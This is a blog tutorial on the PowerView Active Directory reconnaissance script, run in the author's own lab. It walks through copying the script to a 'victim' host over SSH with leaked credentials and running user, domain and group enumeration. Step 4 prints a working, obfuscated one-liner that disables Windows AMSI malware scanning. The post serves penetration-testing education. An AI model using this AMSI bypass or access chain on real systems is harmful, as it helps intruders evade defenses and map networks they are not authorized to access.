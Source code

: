 ```yaml
---
title:  "Day 53 - PowerView - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool PowerView and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is PowerView?
<br>
4 . Why use PowerView?
<br>
5 . How to use PowerView?
<br>
6 . Summary

---

## This post is designed to introduce you to the tool PowerView.

![](PLACEHOLDER_TOOL_PHOTO)

# <span style="color:red">***Disclaimer***</span> : **Please only use PowerView for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **fifty-third** blog post of 100 tools in 100 days.<br> 

Find **PowerView** @ GitHub [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

PowerView was created by Will Schroeder (@harmj0y) find him at:

[GitHub](https://github.com/HarmJ0y)

[LinkedIn](https://www.linkedin.com/in/willschroeder/)

[Twitter](https://twitter.com/harmj0y)


---

### 2. **My Setup**

For running the PowerView tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my victim network I am running a virtualized Active Directory Domain Controller and Windows 10 Enterprise Edition user in a VMware Workstation 16 Player virtualized environment. 

---

### 3. **What is PowerView?**

PowerView is an enumeration PowerShell script which allows a user to discover and identify various aspects of an Active Directory.

---

### 4. **Why use PowerView?**

PowerView is an initial environment reconnaissance tool for security researchers. 

Reconnaissance occurs at various stages of the penetration testing process. 

This particular initial reconnaissance would be after authenticating as a user on an Active Directory domain. 

Therefore, this reconnaissance phase should not be confused with the overall initial discovery reconnaissance phase where you are determining IP addresses, domain names, and services using tools like Nmap. 

PowerView allows a researcher to find other users, domain admins, computers, groups, shares, Group Policies, domain trusts, and much more just as a regular user. 

---

### Before moving forward:

 - I am using a virtualized AD network with a Domain Controller and one user signed in. 
 - For these examples I had to relax Firewall settings.
 - I am using OpenSSH server on the users computer to connect to. 
 - Prior to this point in the attack chain I completed full enumeration of the network and gained access to leaked credentials for the user.
 - Not every active directory attack will function the same, and likely you would not find an environment where firewall solutions are relaxed.
 - I used BadBlood to automate the creation of my Active Directory, you can do the same by visiting the BadBlood page [here](https://github.com/davidprowe/BadBlood).

### 5. **How to use PowerView?**

It is important to remember that PowerView is a ps1 script that needs to be on the users device to run. I will go through the steps I took to securely copy the script to the victim device, execute the script via an SSH terminal established from leaked credentials, and some of the scripts functions that can be used for further pivoting and potential privilege escalation. 

Ensure you have [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) downloaded to your attacking device.

    Step 1:
    Securely copy the powershell script using the following command:

    scp PowerView.ps1 <USERNAME>@<DOMAIN>:<PATH TO DOWNLOAD TO>

<br>

![]()

    Step 2:
    SSH into the victim device using the leaked credentials:

    ssh <USERNAME>@<DOMAIN>

<br>

    Step 3:
    Enter the following command to upgrade to a PowerShell terminal:
    
    powershell -ep RemoteSigned

<br>

![]()

    Step 4:
    Enter the following command to bypass Windows Antimalware:

`S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )`

<br>

You can read more about this Antimalware Scan Interface bypass [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell).

![]()

    Step 5:
    Navigate to the file path where you securely copied the PowerView.ps1 file and enter the following command:

    . .\PowerView.ps1

<br>

You likely will not get a response back from executing PowerView.ps1 which is normal. 

![]()

    Step 6:
    First lets get the list of users in the environment (note if you have a lot of users this will spam your terminal):

    Get-NetUser

<br>

![]()

    Step 7:
    View the properties of the current domain by entering:

    Get-NetDomain

<br>

![]()

    Step 8:
    View members of the group "Domain Admins" by entering the following:

    Get-NetGroup

    When prompted for identity 1 enter Domain Admins

    When prompted for identity 2 press enter

<br>

![]()


### 6. **Summary**

Not all PowerView commands work for every active directory environment, however, many of the options in PowerView are a great place to start when enumerating active directory during your environment reconnaissance. 

I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
